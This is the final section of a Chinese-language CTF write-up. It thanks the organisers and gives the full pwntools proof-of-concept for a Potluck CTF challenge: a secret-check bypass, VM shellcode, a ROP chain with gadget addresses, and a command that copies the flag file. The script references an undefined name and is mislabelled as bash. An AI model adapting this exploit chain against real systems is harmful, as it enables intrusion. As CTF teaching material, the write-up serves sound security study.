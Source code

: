 感谢 blasty 带来了这个酷炫的挑战，以及 ZetaTwo 举办的 CTF！

## 九、攻击 Poc 源代码

```bash
from pwn import *

r = remote('challenge27.play.potluckctf.com', 31337)

# Secret challenge
r.recvuntil(b'stew:\n\n')
secret = bytes.fromhex(r.recvline().strip().decode())
code = xor(secret, p32(0xc0cac01a) + p32(0xd15ea5e) + p32(0x5caff01d) + p32(0xba5eba11)).hex().encode()
r.sendline(code)

# Select vulnerable command 2
r.recvuntil(b'choice> ')
r.sendline(b'2')
r.recvline()

# Gadgets
pop_lr_r5_r4_r2_r1_r0 = 0x164
send_command_gadget = 0x5b0
recv_and_print = 0x714
stack_in_kitchen = 0xfdb8
stack_in_gordon = 0xef7c
system_api_chall = 0x4033A2

# Payload
payload = p32(0xc0cac01a) # command magic
# Gordon shellcode
'''
syscall instruction -> handle_syscall(vm) -> system(vm) -> system(&vm->regs[0])
r0/r1/r2 -> "cat /fla* > /tmp/x_master\x00"
'''
payload += b'\x09\x05\x00\x00' # pop r5 -- @system
payload += b'\x07\xd0\x05\x00' # mov R13, R5 -- write to handle_syscall
payload += b'\x09\x00\x00\x00' # pop r0 -- cat /flag...
payload += b'\x09\x01\x00\x00' # pop r1
payload += b'\x09\x02\x00\x00' # pop r2
payload += b'\x09\x03\x00\x00' # pop r3
payload += b'\x05\x07\x00\x00' # syscall 7

assert len(payload) <= 0x40
payload += b'X' * (0x40 - len(payload))
# Kitchen ROP chain
payload += p64(pop_lr_r5_r4_r2_r1_r0)
payload += p64(send_command) # lr
payload += p64(0) # r5
payload += p64(0) # r4
payload += p64(0) # r2
payload += p64(0x100) # r1
payload += p64(stack_in_kitchen) # r0
payload += p64(recv_and_print) # recv + print
payload += b'X' * (0x80 - len(payload))
# Gordon ret2shellcode
payload += p64(stack_in_gordon)
# Gordon shellcode pop
payload += p64(system_api_chall) # @system
payload += b'cat /fla* > /tmp/x_master\x00' # cmd

assert not b"\x0a" in payload
assert not b"\x0d" in payload
```